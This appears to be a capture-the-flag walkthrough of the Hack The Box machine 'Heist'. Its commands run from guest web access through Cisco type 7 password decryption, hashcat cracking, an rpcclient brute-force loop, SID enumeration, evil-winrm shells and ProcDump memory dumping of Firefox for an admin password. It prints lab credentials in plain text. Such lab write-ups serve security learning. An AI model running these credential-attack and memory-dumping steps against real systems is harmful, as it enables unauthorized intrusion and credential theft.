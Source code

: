 # Target
![Heist](resources/heist.png)


## Getting User
First, let's start off by throwing [my pentest script](https://github.com/montyonsecurity/pentest) at it

	sudo pentest 10.10.10.149

In the output from nmap, it shows that IIS 10 is running. [As per Microsoft](https://www.microsoft.com/en-us/download/details.aspx?id=48264), the following are the possible Windows versions:
- Windows 10
- Windows 7 Service Pack 1
- Windows 8
- Windows 8.1
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2

In the output from dirb, we see a login page (http://10.10.10.149/login.php) and a issues page (https://10.10.10.149/issues.php). Let's take a look at the login page.

	curl http://10.10.10.149/login.php | less

There looks to be a way to login as guest, as shown by the following string in the HTML: "?guest=true". Let's grab a session cookie.
		
	curl -I http://10.10.10.149/login.php?guest=true
	Set-Cookie: PHPSESSID=pp36invteXXXXXXaq9sqf18jh0v; path=/

Now let's read the issues page
	
	curl -b "PHPSESSID=pp36invteXXXXXXaq9sqf18jh0v" "http://10.10.10.149/issues.php" | less

Enumerated hazard and support admin (along with variants to be sure we enumerated all of them) as users. Current user list (written to users.txt)

- admin
- administrator
- hazard
- support admin
- support

As shown in the dirb output from the pentest script, there was a directory called attachments (http://10.10.10.149/attachments/) and in that directory is a config.txt (http://10.10.10.149/attachments/config.txt).

A quick google search of "service password-encryption" (found at the top of the configuration file) returns a lot of Cisco stuff and references Cisco IOS, which is used in routers and switches. Further down in the config file is "router bgp 100", which means this is definitely a router configuration file.

There are 3 passwords and 2 users in this file.

- Usernames
	- rout3r
	- admin
- Passwords
	- password 7 	0242114B0E143F015F5D1E161713
	- password 7 	02375012182C1A1D751618034F36415408
	- md5crypt	$1$pdQG$o8nrSzsGXeaduXrjlvKc91

Adding rout3r to the user list file (users.txt).

A google search for "cisco router config file passwords" yields [this website](https://www.cisco.com/en/US/products/sw/iosswrel/ps1831/products_configuration_guide_chapter09186a0080347975.html) which reveals that "password 7" means it was encrypted with a Cisco specific software. I used [this tool](https://github.com/theevilbit/ciscot7) to decrypt the "password 7" passwords".

	python ciscot7.py -f config.txt
		rout3r:$uperP@ssword
		admin:Q4)sJu\Y8qz*A3?d

For the MD5Crypt password, we can use hashcat to run a dictionary attack with rockyou.

	hashcat -a 0 -m 500 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 

stealth1agent is the string responsible for that hash.

Updating password list (pass.txt).
- $uperP@ssword
- Q4)sJu\Y8qz\*A3?d
- stealth1agent

The nmap output from the pentest script shows that Windows RPC is running on port TCP/135. Let's bruteforce it with the credentials we have. 

	for i in $(cat users.txt); do for j in $(cat pass.txt); do echo $i%$j && rpcclient -U "$i%$j" 10.10.10.149 && sleep 1; done; done;

hazard:stealth1agent is a valid credential pair. We can use RPC to enumerate users by their SID with the command *lookupsids* and *lookupnames* starting with hazard.

	lookupnames hazard

That tells us we are 1008, then we can take the numerical output of that command and alter the last 4 digits to find other users

	lookupsids ...1000
	...
	lookupsids ...1020

chase is at 1012 and jason is at 1013. Let's update users.txt.
- rout3r
- admin
- administrator
- hazard
- support admin
- support
- chase
- jason

We can bruteforce RPC again (typing "exit" after hazard authenticates and pressing Enter). We get a second pair of credentials. chase has the following password: Q4)sJu\Y8qz\*A3?d
	
Getting a shell.

	evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'

user.txt is on chase's desktop

## Getting Root
Let's see what processes are running. If we run *ps*, we notice there are some browsers (firefox and explorer) running, which does not make much sense because this is a webserver.


We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from SysInternals to see the memory of the processes. Download the zip file, unzip it, and upload procdump64.exe via the evil-winrm shell. 

Next, dump the memory of all of the firefox processes and examine the dump files.

	./procdump64.exe -ma [ID]

One of them contains the following string.
	
	localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

Adding the follwoing to the passwords list.
- 4dD!5}x/re8]FBuZ

Getting an admin shell.

	evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'

root.txt is on admin's desktop
